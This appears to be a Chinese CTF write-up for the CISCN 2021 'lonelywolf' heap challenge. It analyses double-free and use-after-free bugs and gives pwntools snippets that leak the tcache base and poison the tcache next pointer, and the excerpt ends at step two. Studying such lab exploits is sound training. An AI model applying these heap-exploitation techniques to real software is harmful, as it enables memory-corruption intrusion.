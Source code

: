 # 1. [CISCN 2021 初赛]lonelywolf

题目地址：[[CISCN 2021 初赛\]lonelywolf | NSSCTF](https://www.nssctf.cn/problem/856)

### 思路： 

1. 修开tcache结构，伪造一个0x91的chunk，伪造0x91chunk的数量（填满tcache），再将其释放free进入unsortedbin来泄漏main_arena地址。

   ![image-20240712160527756](https://gitee.com/poppy-qwq/cloudimage/raw/master/img/202407121605340.png)

### 题目分析：

1. 只能控制一个堆index只能位0，add函数，限制了**不能申请大小为0x90**的chunk：

   ![image-20240712174415106](https://gitee.com/poppy-qwq/cloudimage/raw/master/img/202407121744178.png)

2. delete函数，heap指针没有清0，存在double free：

   ![image-20240712174547228](https://gitee.com/poppy-qwq/cloudimage/raw/master/img/202407121745266.png)

3. edit函数，结合free函数，存在UAF漏洞，释放chunk后还能往里面写参数（可以修改next的值）：

   ![image-20240712174638950](https://gitee.com/poppy-qwq/cloudimage/raw/master/img/202407121746989.png)

4. show函数，同样存在UAF漏洞，可以打印释放后的chunk中的内容：

   ![image-20240712174751510](https://gitee.com/poppy-qwq/cloudimage/raw/master/img/202407121747554.png)

### 利用：

1. 先申请一个大小为0x80的chunk，再double free泄漏tcache的基地址：

   ```python
   # 泄漏tcache的基地址
   add(0x78)
   free()
   edit(p64(0)*2)	#绕过double free的检查
   free()
   show()
   
   p.recvuntil(b"Content: ")
   tcache = (u64(p.recv(6).ljust(8,b'\x00'))&0xfffffffff000)
   success("tcache==>"+hex(tcache))
   ```

   ![image-20240712175402058](https://gitee.com/poppy-qwq/cloudimage/raw/master/img/202407121754372.png)

2. 修改chunk0x80的next指针，指向tcache+0x10的位置，然后两个申请得到tcache chunk0x251：

   ```python
   # 修改tcachebin的next指针，指向tcache的基地址+0x10
   payload = p64(tcache+0x10)
   edit(payload)
   
   add(0x78) 
   add(0x78)   #申请得到tcache
   ```
